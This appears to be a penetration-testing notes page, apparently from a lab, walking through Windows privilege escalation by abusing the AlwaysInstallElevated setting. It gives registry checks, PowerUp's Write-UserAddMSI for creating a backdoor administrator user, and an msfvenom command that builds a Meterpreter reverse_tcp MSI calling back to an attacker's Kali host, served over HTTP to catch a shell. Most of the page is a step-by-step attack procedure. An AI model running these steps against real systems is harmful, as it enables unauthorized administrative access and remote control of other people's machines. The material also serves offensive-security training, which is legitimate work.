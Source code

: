 # 💽 AlwaysInstallElevated

AlwaysInstallElevated is a functionality within Windows that allows all users, including non-administrative ones, to automatically run any MSI (Microsoft Installer) file with elevated privileges. This capability can be exploited in the context of Windows privilege escalation. When an attacker leverages the AlwaysInstallElevated setting, they can manipulate MSI packages to execute arbitrary code with elevated permissions, potentially leading to unauthorized access and control over the system.

To escalate privileges using AlwaysInstallElevated, attackers can create and deploy malicious MSI files, taking advantage of the automatic elevation granted by this setting. By doing so, they can execute code in the context of higher-privileged accounts, achieving a form of privilege escalation.

<figure><img src="../../../../../.gitbook/assets/image (407).png" alt=""><figcaption></figcaption></figure>

first we need to check if AlwaysInstallElevated is =1 :

```
reg query HKLM\Software\Policies\Microsoft\Windows\Installer
```

<figure><img src="../../../../../.gitbook/assets/image (150).png" alt=""><figcaption></figcaption></figure>

now in the cms we do:

```
reg query HKCU\Software\Policies\Microsoft\Windows\Installer
```

<figure><img src="../../../../../.gitbook/assets/image (151).png" alt=""><figcaption></figcaption></figure>

1. `reg query HKLM\Software\Policies\Microsoft\Windows\Installer` queries the local machine's registry for Windows Installer policies at the system level \[[1](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/reg-query)].
2. `reg query HKCU\Software\Policies\Microsoft\Windows\Installer` queries the current user's registry for Windows Installer policies specific to that user \[[1](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/reg-query)].

These commands target different registry hives. The former looks at the machine-wide settings, affecting all users, while the latter focuses on settings applicable only to the currently logged-in user.

[Microsoft - reg query](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/reg-query)

Let's chech who is in the administrators localgroup:

```
net localgroup administrators
```

<figure><img src="../../../../../.gitbook/assets/image (152).png" alt=""><figcaption></figcaption></figure>

The `net localgroup administrators` command is used to display a list of users who are members of the local "Administrators" group on a Windows computer. When you run this command in the command prompt, it provides information about the users belonging to the administrators group, offering insights into the local administrative privileges on the system

* [Wikiversity - Net (command)/Localgroup](https://en.wikiversity.org/wiki/Net\_\(command\)/Localgroup)
* [Microsoft - Net localgroup](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc725622\(v=ws.11\))

In the autorun section we launched the PowerUp tool:

<figure><img src="../../../../../.gitbook/assets/image (153).png" alt=""><figcaption><p>we are going to use it now </p></figcaption></figure>

We simply look for the AlwaysInstallElevated part in the script output

<figure><img src="../../../../../.gitbook/assets/image (154).png" alt=""><figcaption></figcaption></figure>

so it pretty much tells us that the abuse function for AlwaysInstallElevated is `Write-UserAddMSI`

1. **Function Purpose:** "Write-UserAddMSI" is designed to exploit the "AlwaysInstallElevated" registry setting in Windows. This setting allows non-administrative users to install Microsoft Installer Packages (MSI) with elevated privileges.
2. **Malicious MSI Creation:** The function likely facilitates the creation of a malicious MSI package that, when executed, performs unauthorized actions or grants elevated privileges to a user.
3. **Privilege Escalation:** By abusing "AlwaysInstallElevated" with "Write-UserAddMSI," an attacker can escalate their privileges, potentially gaining administrative access on the system.
4. **Backdoor Installation:** It suggests the ability to install a backdoor or perform actions that may compromise the security of the system.
5. [Juggernaut Security - AlwaysInstallElevated – Windows Privilege Escalation](https://juggernaut-sec.com/alwaysinstallelevated/)
6. [Hacking Articles - Windows Privilege Escalation (AlwaysInstallElevated)](https://www.hackingarticles.in/windows-privilege-escalation-alwaysinstallelevated/)
7. [HackTricks - Windows Local Privilege Escalation](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation)
8. [Offsec Journey - Local Priv Esc - Windows](https://notes.offsec-journey.com/privilege-escalation/local-privilege-escalation)

So now let's abuse this, let's do a&#x20;

```
Write-UserAddMSI
```

<figure><img src="../../../../../.gitbook/assets/image (155).png" alt=""><figcaption></figcaption></figure>

In essence, the command is instructing PowerSploit to create a new MSI file named "UserAdd.msi" in the local directory. This MSI file contains configurations or instructions for adding a user, that will be abused for privesc

if we go and look in the local file, we can see some change:

<figure><img src="../../../../../.gitbook/assets/image (156).png" alt=""><figcaption></figcaption></figure>

we double-click on it and see some interesting stuff:

<figure><img src="../../../../../.gitbook/assets/image (157).png" alt=""><figcaption></figcaption></figure>

it asks us to add a user in the administrators group, check mate

and if we run the command again:

<figure><img src="../../../../../.gitbook/assets/image (158).png" alt=""><figcaption></figcaption></figure>

our backdoor user has been added to the group

Let's do this another way,

on your local kali open a msfconsole reverse shell:

<figure><img src="../../../../../.gitbook/assets/image (141).png" alt=""><figcaption></figcaption></figure>

now in another terminal you run this:

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=[Kali VM IP Address] -f msi -o setup.msi
```

<figure><img src="../../../../../.gitbook/assets/image (142).png" alt=""><figcaption></figcaption></figure>

* **msfvenom:** This is the command-line interface for Metasploit's payload generator.
* **-p windows/meterpreter/reverse\_tcp:** Specifies the payload to be generated. In this case, it's a reverse TCP Meterpreter shell for a Windows target.
* **lhost=\[Kali VM IP Address]:** Sets the listening host IP address. Replace `[Kali VM IP Address]` with the actual IP address of your Kali Linux machine. This is the IP where the target machine will connect back.
* **-f msi:** Specifies the format of the output file. Here, it's set to MSI (Microsoft Installer).
* **-o setup.msi:** Specifies the output file name, which is set to `setup.msi`. This is the name of the generated MSI file.

Now we need to upload this payload on our target so let's go and make a local http server:

<figure><img src="../../../../../.gitbook/assets/image (143).png" alt=""><figcaption></figcaption></figure>

didn't make a very secure place for our server, but hey, better work next time,

<figure><img src="../../../../../.gitbook/assets/image (144).png" alt=""><figcaption></figcaption></figure>

and now on our listener:

<figure><img src="../../../../../.gitbook/assets/image (145).png" alt=""><figcaption></figcaption></figure>

just like that, another way of obtaining a shell :smile:
